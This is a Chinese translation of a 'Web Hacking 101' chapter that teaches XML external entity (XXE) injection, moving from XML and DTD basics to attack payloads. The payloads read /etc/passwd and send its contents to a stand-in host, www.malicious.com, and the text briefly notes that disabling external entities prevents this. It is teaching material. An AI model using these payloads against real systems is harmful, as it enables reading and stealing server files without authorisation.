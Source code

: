 ```yaml
---
title: "Web Hacking 101 中文版 十四、XML 外部实体注入（一）"
id: csdn65946462
---
```


# 十四、XML 外部实体注入

> 作者：Peter Yaworski
> 
> 译者：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

XML 外部实体（XXE）漏洞涉及利用应用解析 XML 输入的方式，更具体来说，应用程序处理输入中外部实体的包含方式。为了完全理解理解如何利用，以及他的潜力。我觉得我们最好首先理解什么是 XML 和外部实体。

元语言是用于描述其它语言的语言，这就是 XML。它在 HTML 之后开发，来弥补 HTML 的不足。HTML 用于定义数据的展示，专注于它应该是什么样子。房子，XML 用于定义数据如何被组织。

例如，HTML 中，你的标签为`<title>`, `<h1>`, `<table>`, `<p>`，以及其它。这些东西都用于定义内容如何展示。`<title>`用于定义页面的标题，`<h1>`标签定义了标题，`<table>`标签按行和列展示数据，并且`<p>`表示为简单文本。反之，XML 没有预定义的标签。创建 XML 文档的人可以定义它们自己的标签，来描述展示的内容。这里是一个示例。

```
<?xml version="1.0" encoding="UTF-8"?> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

读完了之后，你可以大致猜测出 XML 文档的目的 – 为了展示职位列表，但是如果它在 Web 页面上展示，你不知道它看起来是什么样。XML 的第一行是一个声明头部，表示 XML 的版本，以及编码类型。在编写此文的时候，XML 有两个版本，1.0 和 1.1。它们的具体区别超出了本书范围，因为它们在你渗透的时候没什么影响。

在初始的头部之后，标签`<jobs>`位于所有其它`<job>`标签的外面。`<job>`又包含`<title>`、`<compensation>`和`<responsibilities>`标签。现在如果是 HTML，一些标签并不需要（但最好有）闭合标签（例如`<br>`），但是所有 XML 标签都需要闭合标签。同样，选取上面的例子，`<jobs>`是个起始标签，`</jobs>`是对应的闭合标签。此外，每个标签都有名称，并且可以拥有属性。使用标签`<job>`，标签名称就是`job`，但是没有属性。另一方面，`<responsibility>`拥有名称`responsibility`，并拥有属性`optional`，由属性名称`optional`和值`1`组成。

由于任何人可以定义任何标签，问题就来了，如果标签可以是任何东西，任何一个人如何知道如何解析和使用 XML 文档？好吧，一个有效的 XML 文档之所以有效，是因为它遵循了 XML 的通用规则（我不需要列出它们，但是拥有闭合标签是一个前面提过的例子），并且它匹配了它的文档类型定义（DTD）。DTD 是我们继续深入的全部原因，因为它是允许我们作为黑客利用它的一个东西。

XML DTD 就像是所使用的标签的定义文档，并且由 XML 设计者或作者开发。使用上面的例子，我就是设计者，因为我在 XML 中定义了职位文档。DTD 定义了存在什么标签，它们拥有什么属性，以及其它元素里面有什么元素，以及其他。当你或者我创建自己的 DTD 时，一些已经格式化了，并且广泛用于 RSS、RDF、HL7 SGML/XML。以及其它。

下面是 DTD 文件的样子，它用于我的 XML。

```
<!ELEMENT Jobs (Job)*> 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> 
<!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0">
```

看一看这个，你可能猜到了它大部分是啥意思。我们的`jobs`标签实际上是 XML `!ELEMENT`，并且可以包含`job`元素。`job`是个`!ELEMENT`，可以包含标题、薪资和职责，这些也都是`!ELEMENT`，并且只能包含字符数据（`#PCDATA`）。最后，`!ELEMENT responsibility`拥有一个可选属性（`!ATTLIST`），默认值为 0。

并不是很难吧？除了 DTD，还有两种还未讨论的重要标签，`!DOCTYPE`和`!ENTITY`。到现在为止，我只说了 DTD 文件是我们 XML 的扩展。要记住上面的第一个例子，XML 文档并不包含标签定义，它由我们第二个例子的 DTD 来完成。但是，我们可以将 DTD 包含在 XML 文档内，并且这样做之后， XML 的第一行必须是`<!DOCTYPE>`元素。将我们的两个例子组合起来，我们就会得到这样的文档：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
]> 
<jobs> 
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
    </job> 
</jobs>
```

这里，我们拥有了内部 DTD 声明。要注意我们仍然使用一个声明头部开始，表示我们的文档遵循 XML 1.0 和 UTF8 编码。但是之后，我们为 XML 定义了要遵循的`DOCTYPE`。使用外部 DTD 是类似的，除了`!DOCTYPE`是`<!DOCTYPE note SYSTEM "jobs.dtd">`。XML 解析器在解析 XML 文件时，之后会解析`jobs.dtd`的内容。这非常重要，因为`!ENTITY`标签被近似处理，并且是我们利用的关键。

XML 实体像是一个信息的占位符。再次使用我们之前的例子。，如果我们想让每个职位都包含到我们网站的链接，每次都编写地址简直太麻烦了，尤其是 URL 可能改变的时候。反之，我们可以使用`!ENTITY`，并且让解析器在解析时获取内容，并插入到文档中。你可以看看我们在哪里这样做。

与外部 DTD 文档类似，我们可以更新我们的 XML 文档来包含这个想法：

```
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE Jobs [ 
<!ELEMENT Job (Title, Compensation, Responsiblity, Website)> 
<!ELEMENT Title (#PCDATA)> <!ELEMENT Compenstaion (#PCDATA)> 
<!ELEMENT Responsibility(#PCDATA)> 
<!ATTLIST Responsibility optional CDATA "0"> 
<!ELEMENT Website ANY> 
<!ENTITY url SYSTEM "website.txt"> 
]> 

<jobs>
    <job> 
        <title>Hacker</title> 
        <compensation>1000000</compensation> 
        <responsibility optional="1">Shot the web</responsibility> 
        <website>&url;</website> 
    </job> 
</jobs>
```

这里你会注意到，我继续并添加了`Website`的`!ELEMENT`，但是不是`#PCDATA`，而是`ANY`。这意味着`Website`可以包含任何可解析的数据组合。我也定义了一个`!ENTITY`，带有`SYSTEM`属性，告诉解析器获取`wensite.txt`文件的数据。现在一切都清楚了。

将它们放到一起，如果我包含了`/etc/passwd`，而不是`website.txt`，你觉得会发生什么？你可能户菜刀，我们的 XML 会被解析，并且服务器敏感文件`/etc/passwd`的内容会包含进我们的内容。但是我们是 XML 的作者，所以为什么要这么做呢？

好吧。当受害者的应用可以滥用，在 XML 的解析中包含这种外部实体时，XXE 攻击就发生了。换句话说，应用有一些 XML 预期，但是在接收时却不验证它。所以，只是解析他所得到的东西。例如，假设我正在运行一个职位公告板，并允许你注册并通过 XML 上传职位。开发我的应用时，我可能使我的 DTD 文件可以被你访问，并且假设你提交了符合需求的文件。我没有意识到它的危险，决定天真地解析收到的内容，并没有任何验证。但是作为一个黑客，你决定提交：

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY xxe SYSTEM "file:///etc/passwd" > 
]> 
<foo>&xxe;</foo>
```

就像你现在了解的那样，当这个文件被解析时，我的解析器会收到它，并且看到内部 DTD 定义了`foo`文档类型，告诉它`foo`可以包含任何可解析的数据，并且有个`!ENTITY xxe`，它应该读取我的`/etc/passwd`文件（`file://`的用法表示`/etc/passwd`的完整的文件 URL 路径），并会将`&xxe;`替换为这个文件的内容。之后你以定义`<foo>`标签的有效 XML 结束了它，这会打印出我的服务器数据。这就是 XXE 危险的原因。

但是等一下，还有更多的东西。如果应用不打印出回应，而是仅仅解析你的内容会怎么样？使用上面的例子，内容会解析但是永远不会反回给我们。好吧，如果我们不包含本地文件，而是打算和恶意服务器通信会怎么样？像是这样：

```
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY > 
<!ENTITY % xxe SYSTEM "file:///etc/passwd" > 
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;"> 
]> 
<foo>&callhome;</foo> 
```

在解释它之前，你可能已经注意到我在`callhome` URL 中使用了`%`来代替`&`，`%xxe`。这是因为`%`用于实体在 DTD 定义内部被求值的情况，而`&`用于实体在 XML 文档中被求值的情况。现在，当 XML 文档被解析，`callhome !ENTITY`会读取`/etc/passwd`的内容，并远程调用`http://www.malicous.com`，将文件内容作为 URL 参数来发送，因为我们控制了该服务器，我们可以检查我们的日志，并且足够确保拥有了`/etc/passwd`的内容。Web 应用的游戏就结束了。

所以，站点如何防范 XXE 漏洞？它们可以禁止解析任何外部实体。

> 链接
> 
> 查看 [OWASP 外部实体（XXE）解析](https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing)
> 
> [XXE 速查表](http://www.silentrobots.com/blog/2014/09/02/xe-cheatsheet)